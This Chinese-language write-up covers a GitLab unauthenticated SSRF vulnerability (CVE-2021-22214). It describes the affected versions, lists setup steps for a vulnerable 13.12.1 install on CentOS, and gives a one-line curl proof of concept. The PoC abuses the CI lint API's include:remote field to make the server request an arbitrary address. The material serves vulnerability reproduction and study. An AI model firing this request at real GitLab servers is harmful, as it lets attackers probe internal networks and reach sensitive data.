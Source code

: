 ## GitLab前台SSRF漏洞

## 漏洞描述

GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的Web服务。GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。 

## 漏洞影响

> GitLab CE/EE >=10.5

## 漏洞复现

**1、环境搭建**

以CentOS为例，先添加gitlab更新源。

```
[gitlab-ce]name=Gitlab CE Repositorybaseurl=https://mirrors.tuna.tsinghua.edu.cn/gitlab-ce/yum/el$releasever/gpgcheck=0enabled=1
```

添加更新源后使用命令yum makecache缓存更新源数据。

使用如下命令可以得到当前更新源中可安装所有的gitlab版本

```
yum list gitlab-ce --showduplicates|sort -r
```

![1](resource/GitLab前台SSRF漏洞/1.png)

使用yum安装指定版本，例如13.12.1

yum install gitlab-ce-13.12.1-ce.0.el7

使用命令gitlab-ctl reconfigure即可默认配置安装gitlab。

**2、漏洞复现**

直接运行poc，remote后面即为ssrf访问的地址。

```
curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://x.x.x.x:port/api/v1/targets?test.yml"}'
```

![2](resource/GitLab前台SSRF漏洞/2.png)